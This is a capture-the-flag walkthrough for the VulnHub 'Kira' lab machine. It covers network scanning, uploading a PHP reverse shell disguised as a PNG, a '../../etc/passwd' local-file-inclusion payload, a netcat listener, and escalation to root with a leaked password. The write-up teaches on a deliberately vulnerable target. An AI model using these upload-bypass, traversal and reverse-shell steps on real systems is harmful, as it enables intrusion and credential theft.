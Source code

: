 # Kira CTF Writeup

## Description
This is a Kira CTF that is also easy to enumerate, designed for beginners. The objective is to gain shell access and find two flags, `user.txt` and `root.txt`.

- Author: Bassam Assiri
- Link: [Kira CTF](https://www.vulnhub.com/entry/kira-ctf,594/)
- Tools Used: netdiscover, nmap, nc
- Prerequisites: Basic knowledge of Linux architecture and web networking.

## Walkthrough

### Step 1: Identify the IP of the Machine & Network Scan
To identify the IP of the machine, we use netdiscover with the following command:
```
netdiscover -r 192.168.0.0/16
```
In my case, the IP is "192.168.141.132". Please note that the IP may be different in your case.

![netdiscover](Img/1_Netdiscover.png)

Now, run a nmap scan with the command: 
```
nmap -A -v -O -T4 192.168.141.132
```
The result for this nmap scan is:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site does not have a title (text/html).
MAC Address: 00:0C:29:11:19:0A (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
```

### Step 2: Explore the Web Server
As we saw in the network scan, only port 80 is open, which means a web server is hosted on the machine. By visiting the IP, we get a web page.

![web page](Img/2_Web%20page.png)

### Step 3: Exploiting File Upload Vulnerability
By visiting the upload button, it opens a page where we can upload a PNG file. 
- Here only PNG files are allowed to be uploaded. So, we need to create a PNG file with PHP code. 
- We can use the PHP reverse shell code from [this GitHub repository](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and modify it with our IP (attacker's IP) and port (in my case, it is "1234"). 
- Save this PHP code in a file named "Image.php.png" and upload it to the webpage. 
- We will get a popup indicating a successful upload. 
- By visiting the `/uploads/` directory, we can see that the PNG file has been uploaded.
  ![Uploaded file](Img/3_Uploaded%20file.png)

On the first page, we saw a language button, and the page has the title of `LFI (Local File Inclusion)`. 
- In LFI vulnerability, we can show internal files by giving commands in the URL.
- To view the "passwd" file of the server, visit the URL `192.168.141.132/language.php?lang=../../../../../../etc/passwd`.

![LFI vulnerability](Img/4_Passwd%20file.png)

### Step 4: Gaining Shell Access
To execute the PHP reverse shell, visit the uploaded PNG file. 
- Run Netcat on port `1234` by typing `nc -nlvp 1234` in the terminal.
- Visit the URL `192.168.141.132/language.php?lang=../../../../../../var/www/html/uploads/image.php.png`.
- By doing this, we get the shell.

![shell](Img/5_Shell%20access.png)

### Step 5: Finding the User Flag
- In the directory `/var/www/html/`, we found one directory named `supersecret-for-aziz` and a file named `bassam-pass.txt`.
- This file contains the password of "bassam".
- By reading that file, we get the password of Bassam, which is `Password123!@#`.

![Bassam password](Img/6_Bassam%20password.png)

### Step 6: Gaining Root Access
To login into user bassam's account, use the command `su bassam`. 
- But it shows that `su` is only run on the terminal. 

![Su error](Img/7_Su%20error.png)

To grab the terminal, use the python command: 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
Now, we can get into Bassam's account.

![Bassam's terminal](Img/8_Bassam's%20terminal.png)

In the user's home directory, I found the `user.txt` file, and inside it there is the flag:
```
THM{Bassam-Is-Better_Than-KIRA}
```

![user flag](Img/9_User%20flag.png)

### Step 7: Getting Root Flag
Now, to grab the root flag, execute the command `su -l` and enter the user's password `Password123!@#`. By accessing root, we have the root flag: 
```
THM{root-Is_Better-Than_All-of-THEM-31337}
```

![root flag](Img/10_Root%20flag.png)
